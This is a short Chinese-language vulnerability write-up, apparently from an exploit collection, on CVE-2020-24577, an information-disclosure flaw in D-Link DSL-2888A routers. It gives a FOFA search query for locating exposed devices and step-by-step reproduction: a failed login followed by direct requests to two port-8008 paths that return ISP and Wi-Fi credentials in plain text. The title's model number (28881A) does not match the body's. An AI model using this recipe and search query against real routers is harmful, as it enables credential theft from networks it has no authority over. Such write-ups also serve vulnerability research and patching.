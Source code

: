 # D-Link-DSL-28881A-信息泄露-CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

> [!NOTE]
>
> D-Link DSL-2888A

## FOFA

> [!NOTE]
>
> body="DSL-2888A"

## 漏洞复现

登录页面输入任意密码建立连接

![](D-Link-DSL-28881A-信息泄露-CVE-2020-24577.assets/1627363616930615.jpg)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram

![](D-Link-DSL-28881A-信息泄露-CVE-2020-24577.assets/1627363617390506.jpg)

> [!NOTE]
>
> 连接Wifl或物理连接Wifi才能访问